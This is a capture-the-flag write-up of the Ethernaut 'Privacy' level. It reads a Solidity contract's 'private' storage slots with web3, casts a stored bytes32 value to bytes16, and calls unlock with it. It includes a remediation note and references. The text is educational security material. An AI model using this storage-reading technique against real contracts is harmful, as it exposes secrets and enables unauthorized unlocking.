 ![Privacy](/assets/img/BigLevel12.svg)

- [Challenge](#challenge)
- [Solution](#solution)
- [Remediation](#remediation)
- [References](#references)
   
# Challenge

The level reads:

> The creator of this contract was careful enough to protect the sensitive areas of its storage.
>
> Unlock this contract to beat the level.
>
> Things that might help:
>
> - Understanding how storage works
> - Understanding how parameter parsing works
> - Understanding how casting works
>
> Tips:
>
> - Remember that metamask is just a commodity. Use another tool if it is presenting problems. Advanced gameplay could involve using remix, or your own web3 provider.

And gives us the following contract's code:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {

  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(block.timestamp);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```

# Solution

This level is similar to [Vault](/2023-07-11-ethernaut-08-vault-writeup/). We need to access a "private" variable, but this time is not so straight forward as it is using more complex data types.

First, let's do a quick review on how the storage works in Solidity:

> Solidity storage is like an array of length 2^256. Each slot in the array can store 32 bytes.
>
> Order of declaration and the type of state variables define which slots it will use.

> Statically-sized variables (everything except mapping and dynamically-sized array types) are laid out contiguously in storage starting from position 0. Multiple items that need less than 32 bytes are packed into a single storage slot if possible, according to the following rules:
> 
> - The first item in a storage slot is stored lower-order aligned.
> - Elementary types use only that many bytes that are necessary to store them.
> - If an elementary type does not fit the remaining part of a storage slot, it is moved to the next storage slot.
> - Structs and array data always start a new slot and occupy whole slots (but items inside a struct or array are packed tightly according to these rules).

So, now that we know this. Let's map it to the contract state variables.

At the slot 0 we have `locked` which is a boolean, it occupies just 1 byte, so in theory there are 31 bytes free at slot 0. But, the next variable is `ID`, which is an uint256, these variables have, as their names indicates, 256 bits, which are 32 bytes. Then this variable is not going to fit at the slot 0 and is going to take the whole slot 1. We can verify this, by running the following commands:

```javascript
await web3.eth.getStorageAt(contract.address, 0)
'0x0000000000000000000000000000000000000000000000000000000000000001'
```

This is `locked` which starts with a `true` value (0x01 in hex)

```javascript
await web3.eth.getStorageAt(contract.address, 1)
'0x0000000000000000000000000000000000000000000000000000000064b57258'
```
And this is the `ID` variable.

Now, let's continue with the others, at the slot 2 we have:

```javascript
await web3.eth.getStorageAt(contract.address, 2)
'0x000000000000000000000000000000000000000000000000000000007258ff0a'
```

Let's analyze the slot2, first of all we have `flattening` which is an uint8, meaning that its length is 8 bits, or 1 byte, its value is 10 in decimal, in hex it's 0x0a (notice the last byte of the slot2). Next we have another uint8, the variable `denomination` 255 in decimal is 0xff in hex, again, notice the 2nd least signiticant byte of the slot 2. And last, we have `awkwardness` this is an uint16, 2 bytes, and notice that this variable contains the `block.timestamp` as the variable `ID` but cast into an uint16 instead. Which makes sense as the 3rd and 4th least significant bytes of slot 2 are the same as the last 2 of slot 1. 

Last, we have an array of three byte32 words. As each position of the array is a byte32, then, each position of the array is going to take a full slot, let's see the content of the array:

```javascript
await web3.eth.getStorageAt(contract.address, 3)
'0x9f7915c8fe312775d78205fa953989ea1afcb65613454b7505ef53b81a50c7ea'
```

The slot 3 contains `data[0]`.

```javascript
await web3.eth.getStorageAt(contract.address, 4)
'0x6757c54a3455a660b16202495d1fb08fdc5b3a6b27a96dad2fab8866b88e9493'
```

The slot 4 contains `data[1]`.

```javascript
await web3.eth.getStorageAt(contract.address, 5)
'0x6133fad256a7028cbeafa5265be522940e4c773342906aeed49f08c986c58490'
```

And slot 5 contains `data[2]`.

Now, let's analyze the code of the `unlock()` function. This function takes a "key" as input, which is a bytes16 structure. Then notice that the function compares the input key with the second position of the data array cast into bytes16. If they are equal, it changes the value of `locked` to false. Which is what we need to pass the level. When we cast a bytes32 into a bytes16, solidity will take the first 16 bytes of the bytes32 and put it into the bytes16 variable. In this case: 0x**6133fad256a7028cbeafa5265be52294**0e4c773342906aeed49f08c986c58490

We can confirm it with a small contract that takes a bytes32 variable and casts it into a bytes16.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Solver {
    bytes32 public data;
    bytes16 public key;

    constructor (bytes32 _data) {
        data = bytes32(_data);
        key = bytes16(data);
    }
}
```

If we deploy this contract with the content of `data[2]`. We should get the key to pass the level:

![Solver variables after deployment](/assets/img/privacy_data_cast.png)

Now we just need to call unlock with the first half of `data[2]` as input: 

```javascript
await contract.unlock('0x6133fad256a7028cbeafa5265be52294')
```

We can verify that it worked by running any of the following commands:

```javascript
await web3.eth.getStorageAt(contract.address, 0)
'0x0000000000000000000000000000000000000000000000000000000000000000'
```

```javascript
await contract.locked()
false
```

And that's it! We unlocked the contract :D

![Well done](/assets/img/ethernaut_solved.png)

# Remediation

- Any private data should either be stored off-chain, or carefully encrypted.

# References

- [SWC-136](https://swcregistry.io/docs/SWC-136)
- [Contracts](https://docs.soliditylang.org/en/v0.8.17/contracts.html)
- [How to read Ethereum contract storage](https://medium.com/@dariusdev/how-to-read-ethereum-contract-storage-44252c8af925)
- [Write to Any Slot](https://solidity-by-example.org/app/write-to-any-slot/)
- [Layout of State Variables in Storage](https://docs.soliditylang.org/en/v0.4.24/miscellaneous.html#layout-of-state-variables-in-storage)